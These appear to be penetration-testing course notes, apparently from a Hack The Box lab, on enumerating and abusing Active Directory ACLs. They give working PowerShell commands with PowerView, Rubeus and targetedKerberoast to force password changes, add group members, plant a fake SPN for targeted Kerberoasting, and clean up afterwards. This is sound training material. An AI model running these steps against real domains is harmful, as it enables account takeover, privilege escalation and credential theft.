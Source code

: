 # ACL Enumeration
Attackers utilize ACE entries to either further access or establish persistence. These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the impact that these can have if applied incorrectly. They cannot be detected by vulnerability scanning tools, and often go unchecked for many years, especially in large and complex environments. During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:

![alt text](https://academy.hackthebox.com/storage/modules/143/ACL_attacks_graphic.png)

ForceChangePassword abused with Set-DomainUserPassword
Add Members abused with Add-DomainGroupMember
GenericAll abused with Set-DomainUserPassword or Add-DomainGroupMember
GenericWrite abused with Set-DomainObject
WriteOwner abused with Set-DomainObjectOwner
WriteDACL abused with Add-DomainObjectACL
AllExtendedRights abused with Set-DomainUserPassword or Add-DomainGroupMember
Addself abused with Add-DomainGroupMember


## Enumerating ACLs with PowerView
**Using Find-InterestingDomainAcl**
```
PS > Find-InterestingDomainAcl
```

We can then use the Get-DomainObjectACL function to perform our targeted search. In the below example, we are using this function to find all domain objects that our user has rights over by mapping the user's SID using the $sid variable to the SecurityIdentifier property which is what tells us who has the given right over an object. One important thing to note is that if we search without the flag ResolveGUIDs, we will see results like the below, where the right ExtendedRight does not give us a clear picture of what ACE entry the user wley has over damundsen. This is because the ObjectAceType property is returning a GUID value that is not human readable.

Note that this command will take a while to run, especially in a large environment. It may take 1-2 minutes to get a result in our lab.

**Using Get-DomainObjectACL**
```
PS > Import-Module .\PowerView.ps1
PS > $sid = Convert-NameToSid <USERNAME>
PS > Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

**Performing a Reverse Search & Mapping to a GUID Value**
```
PS > $guid= "<ObjectAceType>"
PS > Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

**Using the -ResolveGUIDs Flag**
```
PS > Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

**Creating a List of Domain Users**
```
PS > Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

**A Useful foreach Loop**
```
PS > foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

**Further Enumeration of Rights Using damundsen**
```
PS > $sid2 = Convert-NameToSid damundsen
PS > Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

**Investigating the Help Desk Level 1 Group with Get-DomainGroup**
```
PS > Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```

**Investigating the Information Technology Group**
```
PS > $itgroupsid = Convert-NameToSid "Information Technology"
PS > Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

**Looking for Interesting Access**
```
PS > $adunnsid = Convert-NameToSid adunn 
PS > Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $adunnsid} -Verbose
```

## Enumerating ACLs with BloodHound
Next, we can set the <Username> user as our starting node, select the Node Info tab and scroll down to Outbound Control Rights




# ACL Abuse Tactics
## Abusing ACLs
### ForceChangePassword
So, first, we must authenticate as wley and force change the password of the user damundsen. We can start by opening a PowerShell console and authenticating as the wley user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a PSCredential object.

**Creating a PSCredential Object**
```
PS > $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

**Creating a SecureString Object**
```
PS > $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

**Changing the User's Password**
```
PS > Import-Module .\PowerView.ps1
PS > Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

We can see that the command completed successfully, changing the password for the target user while using the credentials we specified for the wley user that we control. Next, we need to perform a similar process to authenticate as the damundsen user and add ourselves to the Help Desk Level 1 group.

### Add-DomainGroupMember
**Creating a SecureString Object using damundsen**
```
PS > $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS > $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the Add-DomainGroupMember function to add ourselves to the target group

**Adding damundsen to the Help Desk Level 1 Group**
```
PS > Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

PS > Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

**Confirming damundsen was Added to the Group**
```
PS > Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the adunn user. Now, let's say that our client permitted us to change the password of the damundsen user, but the adunn user is an admin account that cannot be interrupted. Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the Information Technology group for this to be successful. Since we added damundsen to the Help Desk Level 1 group, we inherited rights via nested group membership. We can now use Set-DomainObject to create the fake SPN. We could use the tool targetedKerberoast [https://github.com/ShutdownRepo/targetedKerberoast] to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

### Creating a Fake SPN
```
PS > Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```
$ targetedKerberoast.py -d <domain> -u <user> -p <pass>
```

**Kerberoasting with Rubeus**
```
PS > .\Rubeus.exe kerberoast /user:adunn /nowrap
```

#### Cleanup
**Removing the Fake SPN from adunn's Account**
```
PS > Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

**Removing damundsen from the Help Desk Level 1 Group**
```
PS > Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

**Confirming damundsen was Removed from the Group**
```
PS > Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```